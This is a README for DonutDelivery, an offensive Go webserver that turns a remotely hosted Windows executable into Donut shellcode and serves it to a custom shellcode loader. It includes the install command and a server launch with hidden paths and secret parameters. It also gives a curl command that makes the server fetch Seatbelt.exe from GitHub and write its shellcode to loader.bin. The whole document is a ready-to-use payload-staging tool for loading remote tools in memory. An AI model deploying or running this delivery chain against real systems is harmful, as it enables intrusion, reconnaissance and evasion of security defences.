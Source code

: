 <div align="center">
<img src=https://github.com/mariolima/DonutDelivery/assets/5732425/a320c4d7-1961-4d2e-8989-c2a0d2115c82 height="230">
</div>

## Description

This is a simple webserver that integrates with [Donut](https://github.com/TheWover/donut) using Binject's [go-donut](https://github.com/Binject/go-donut) and delivers shellcode given a particular (PE) .exe URL - sent as a GET parameter. 

Ideally used with your custom shellcode loader, you can make it arbitrarily load any [Donutable](https://github.com/Flangvik/SharpCollection) PE by remotely requesting its shellcode and merely providing the tool name.

## How to use

```bash
go install github.com/mariolima/donutdelivery@latest
donutdelivery  -l '127.0.0.1:8087' -path '/secretdonutpath' -up 'urlsecretparam' -sp 'argssecretparam'

curl http://127.0.0.1:8087/secretdonutpath?urlsecretparam=https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Seatbelt.exe&argssecretparam=antivirus > loader.bin
```

## Help

```
Usage of donutdelivery:
  -l string
    	The listening address of the server (default "127.0.0.1:8087")
  -path string
    	HTTP path to be used for donut delivery (default "/donut")
  -ap string
    	HTTP parameter where the comma separated PE arguments will be sent (default Random)
  -secret string
    	Secret to be sent in the requests along with the PE url (Authorization header if param not defined). 
        No authentication if not defined.
  -sp string
    	HTTP paramter where the secret will be sent (instead of Authorization token header)
  -up string
    	HTTP parameter where the PE url will be sent (default Random)
```
